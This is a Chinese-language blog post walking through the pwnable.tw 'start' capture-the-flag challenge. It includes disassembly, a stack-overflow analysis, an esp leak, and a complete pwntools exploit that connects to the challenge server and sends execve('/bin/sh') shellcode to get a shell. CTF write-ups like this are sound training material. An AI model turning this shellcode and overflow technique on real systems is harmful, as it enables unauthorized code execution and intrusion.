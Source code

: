 ```yaml
---
title: pwnable.tw start
time: 2017-11-26
tags: [pwn]
layout: post
categories: posts
---
```



# Start

用IDA打开，程序其实是单纯用汇编写的，通过系统调用来输出`Let's start the CTF:`并获取输入。

``` asm
.text:08048060 _start          proc near
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

使用`pattern_create`和`pattern_offset`获取到溢出的偏移是`20`


``` python
ret = 0x08048087

payload1 = 'A' * 20
payload1 += p32(ret)

p.recvuntil(':')
p.sendline(payload1)
leak = u32(p.recv(4))
print hex(leak)
```

在`_start`函数开始进行了`push    esp`和`push    offset _exit`，因此`retn`时会回到`_exit`函数继续执行。

因此，只要我们将这个`retn`返回地址覆盖，就可以转到任意地址继续执行。

这里我们将其覆盖为`0x08048087`，为什么呢？这里是`.text:08048087                 mov     ecx, esp        ; addr`，因为在其下的`sys_write`函数可以取出`esp`赋给`ecx`，然后输出`ecx`的内容。因此我们可以通过这样，泄漏出`saved esp`的位置

``` python
from pwn import *

debug = False
local = False
x86 = True

if debug:
    context.log_level = 'debug'
else:
    context.log_level = 'info'
if x86:
    libc = ELF('/lib32/libc.so.6')
    #libc = ELF('./libc-2.23.so')
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if local:
    p = process('./start')
else:
    p = remote('chall.pwnable.tw',10000)


shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
ret = 0x08048087 # mov     ecx, esp
payload1 = 'a'*20 + p32(ret) 
p.recvuntil(':')
p.send(payload1)
leak = u32(p.recv(4)) # leak saved_esp

#leak+20是因为retn前add     esp, 14h
payload2 = 'a'*20 + p32(leak+20)  + shellcode
p.send(payload2)
p.interactive()
```